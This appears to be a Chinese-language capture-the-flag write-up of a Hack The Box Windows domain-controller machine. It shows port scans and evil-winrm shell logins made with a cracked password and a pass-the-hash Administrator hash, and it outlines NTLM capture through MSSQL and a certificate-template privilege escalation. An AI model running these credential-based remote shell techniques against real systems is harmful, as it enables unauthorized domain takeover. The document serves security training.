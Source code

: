 **Waiting for machine retire...**

*Difficulty: Medium*

第一次打Windows的靶机……也是边打边学了。

---

## 扫描

由于是Windows机器且是Medium，姑且扫一下全端口吧

```bash
└─$ export HTB_IP=10.10.11.202
└─$ sudo nmap -n -Pn -sS -p- --min-rate=10000 ${HTB_IP} | tee ${HTB_IP}_ports_all.nmap
└─$ export ports=$(cat "${HTB_IP}_ports_all.nmap" | grep ^[0-9] | cut -d / -f1 | tr '\n' ',' | sed s/,$//)
└─$ echo $ports
53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49687,49688,49705,49709,52722

└─$ sudo nmap -v -n -Pn -sV -O -p ${ports} ${HTB_IP} | tee "${HTB_IP}_baseScan.nmap"
……
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-01 09:36:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
52722/tcp open  msrpc         Microsoft Windows RPC

└─$ sudo nmap -n -Pn -sU --top-ports 20 ${HTB_IP} | tee "${HTB_IP}_ports_udp_top20.nmap"
PORT      STATE         SERVICE
53/udp    open          domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open          ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
```


## 端口分析、攻击路径规划

有DNS、Kerberos、LDAP，应该是个域控？  
域名疑似这个：sequel.htb0（后确认为“sequel.htb”）

感觉可以参考这个[APT靶机](./HTB-APT.md)。先看看445和135有什么信息。  
然后有1433的SQL，打进去之后可能可以枚举LDAP？


## 445端口




## 135端口



## Initial Access

### 记住：获得有效凭据就尝试横向移动

回顾了一下[APT靶机的过程](./HTB-APT.md#_3)，到底是怎么get shell的……

### evil-winrm使用域凭据get shell


## flag: user

```bash
└─$ evil-winrm -i ${HTB_IP} -u Ryan.Cooper -p NuclearMosquito3

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> whoami
sequel\ryan.cooper


*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> cat user.txt
de9e……cb29
```


## Privilege Escalation

### CA模板漏洞


## flag: root

```
└─$ evil-winrm -i ${HTB_IP} -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/4/2023   4:49 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
9384……db0c
```

---

## 总结·后记

2023/06/04

挺有意思的，这次该好好总结一下了。Certify之后都是跟着github照葫芦画瓢，要好好琢磨一下各个地方的知识点。

首先是关于总体流程，RPC的优先度其实不该这么高。  
SMB → MSSQL，捕获NTLMv2，由于是msf模块所以不太清楚具体细节，不过看手动也有用`xp_dirtree`强制NTLM认证的样子。  
因为不熟悉MSSQL，进行了大量无意义的枚举。还总想着是否要登陆进去，结果登进去也没什么意义。早在hacktricks的最开头就写着关于获取Net-NTLM的信息了，不过因为想着不太可能破解NTLMv2所以就放置到最后才处理这步了。还是经验太少。

破解后获得域凭据 → 由于是域凭据所以尝试初始连接，根据以前APT的笔记，有很多工具，不过这次都是使用`Evil-WinRM`。

然后就是横向移动，感觉没什么技术含量，就略过吧。其实至今不明白为什么会想到组合err log里的两个username报错。是期待用户误操作将密码当用户名输入？

最后的提权算是我印象中域渗透的精华部分了。首先自己该有枚举什么信息的思路，当思路走到`Certify`时，将会发现CA模板漏洞，这个也是前阵子接触到的一个概念。将是我接下来需要好好琢磨的地方。  
特别是“Getting credentials using U2U”这里的U2U十分陌生。 